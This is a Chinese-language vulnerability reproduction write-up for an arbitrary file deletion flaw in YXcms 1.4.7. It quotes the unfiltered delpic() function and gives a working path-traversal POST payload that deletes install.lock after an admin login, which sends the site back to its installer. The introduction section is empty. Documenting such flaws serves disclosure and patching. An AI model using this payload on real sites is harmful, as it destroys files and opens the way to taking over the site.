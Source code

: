 YXcms 1.4.7 任意文件删除
========================

一、漏洞简介
------------

二、漏洞影响
------------

YXcms 1.4.7

三、复现过程
------------

### 漏洞分析

漏洞文件：protected/apps/admin/controller/photoController.php,在第355行的delpic()函数，可以看到\$picname接收POST过来的值，然后\$path等于文件开头定义的静态变量
static protected \$uploadpath=\'\';//图片上传路径
没有对传入的值进行任何的过滤，使用函数file\_exists()判断一下文件是否存在就给unlink执行删除文件了。

    public function delpic()
    {
        if(empty($_POST['picname'])) $this->error('参数错误~');
        $picname=$_POST['picname'];
        $path=$this->uploadpath;
        if(file_exists($path.$picname))
          @unlink($path.$picname);
        else{echo '图片不存在~';return;} 
        if(file_exists($path.'thumb_'.$picname))
           @unlink($path.'thumb_'.$picname);
        else {echo '缩略图不存在~';return;}
        echo '原图以及缩略图删除成功~';
    }

### 复现

需要先登录后台，然后访问之后会显示缩略图不存在

payload

    http://0-sec.org/index.php%3Fr%3Dadmin/photo/delpic

POST：

    picname=../../protected/apps/install/install.lock

![](./resource/YXCMS1.4.7任意文件删除/media/rId26.png)

然后访问网站首页就会自动转到安装的页面

![](./resource/YXCMS1.4.7任意文件删除/media/rId27.png)

看到目录下的install.lock文件已经被删除了

![](./resource/YXCMS1.4.7任意文件删除/media/rId28.shtml)
